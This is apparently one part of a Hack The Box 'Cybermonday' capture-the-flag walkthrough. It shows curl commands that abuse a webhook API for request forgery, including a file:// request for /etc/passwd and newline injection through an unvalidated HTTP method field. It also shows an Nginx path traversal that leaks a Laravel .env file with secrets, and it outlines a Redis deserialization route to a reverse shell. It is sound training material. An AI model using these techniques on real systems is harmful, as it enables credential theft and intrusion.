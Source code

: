 # HTB Cybermonday - Obtaining More Info

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[Webhook API Admin Access](htb-cybermonday-2-webhook-api-admin.md)
[**Obtaining More Info**](htb-cybermonday-3-obtaining-more-info.md)
[Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
[Where to Now?](htb-cybermonday-5-where-to-now.md)
[Reading the Source](htb-cybermonday-6-reading-the-source.md)
[Composing Root Access](htb-cybermonday-7-composing-root-access.md)

Now that we have the ability to make the web server send requests for us, the question is what to do with it. The first thing to try would be to get files on the system:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make HTTP requests, the use right now seems limited. Let's use a `netcat` listener and send some requests to see what info the webhook is sending.
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on Laravel we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an Nginx proxy server, which can often be misconfigured to allow for path traversal. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used `gobuster` when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the Redis server and MySQL server this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much simpler protocol that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of sessions. These sessions will be stored in the Redis server, so if we can find a way to inject a PHP deserialization attack payload into the Redis server, we could potentially have a way to perform RCE and gain a reverse shell.

Next: [Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
